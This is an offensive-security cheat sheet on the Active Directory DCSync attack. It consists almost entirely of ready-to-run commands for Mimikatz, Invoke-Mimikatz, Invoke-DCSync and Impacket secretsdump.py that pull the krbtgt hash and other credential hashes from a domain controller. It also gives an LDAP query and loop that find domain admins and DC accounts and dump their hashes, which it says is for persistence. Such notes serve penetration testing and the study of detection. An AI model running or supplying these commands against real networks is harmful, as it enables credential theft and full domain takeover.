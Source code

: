 ```yaml
---
description: DS-Replication-Get-Changes + DS-Replication-Get-Changes-All
---
```


# DCSync

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
* [https://twitter.com/cnotin/status/1419944965443047424?s=28](https://twitter.com/cnotin/status/1419944965443047424?s=28)




## Tools



### Mimikatz

```
mimikatz # lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt
mimikatz # lsadump::dcsync /domain:megacorp.local /user:krbtgt@megacorp.local
```


#### Invoke-Mimikatz

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)

```
PS > Invoke-Mimikatz '"lsadump::dcsync /domain:megacorp.local /user:MEGACORP\krbtgt" "exit"'
```



### Invoke-DCSync.ps1

* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1)

```
PS > Invoke-DCSync -GetComputers -Domain megacorp.local -DomainController DC1.megacorp.local
```



### secretsdump.py

```
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt'
$ secretsdump.py DC1.megacorp.local -dc-ip 192.168.1.11 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```


#### Targeted DCSync

When performing targeted DCSync (e.g., for persistence purposes) choose the most valuable accounts. One can use the following LDAP query to search for effective domain admins (`adminCount=1`) as well as DC computer accounts (`SERVER_TRUST_ACCOUNT` bit or `userAccountControl=8192` is set):

```
(&
	(|
		(&(objectCategory=person)(objectClass=user))
		(&(objectCategory=computer)(objectClass=computer))
	)
	(!(userAccountControl:1.2.840.113556.1.4.803:=2))
	(|
		(adminCount=1)
		(userAccountControl:1.2.840.113556.1.4.803:=8192)
	)
)

$ windapsearch --dc 192.168.1.11 -d megacorp.local -u 'DC1$' --hash fc525c9683e8fe067095ba2ddc971889 -m custom --filter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' --attrs msDS-PrincipalName | grep msDS | awk '{print $2}' | tee high-value-targets.txt
$ for t in `cat high-value-targets.txt`; do secretsdump.py -pwd-last-set MEGACORP/'DC1$'@192.168.2.22 -hashes :fc525c9683e8fe067095ba2ddc971889 -just-dc-user $t | grep aad3b | tee -a high-value-hashes.txt; done
Or
$ secretsdump.py -pwd-last-set MEGACORP/snovvcrash:'Passw0rd!'@DC1.megacorp.local -dc-ip 192.168.1.11 -ldapfilter '(&(|(&(objectCategory=person)(objectClass=user))(&(objectCategory=computer)(objectClass=computer)))(!(userAccountControl:1.2.840.113556.1.4.803:=2))(|(adminCount=1)(userAccountControl:1.2.840.113556.1.4.803:=8192)))' | grep aad3b | tee high-value-hashes.txt
```
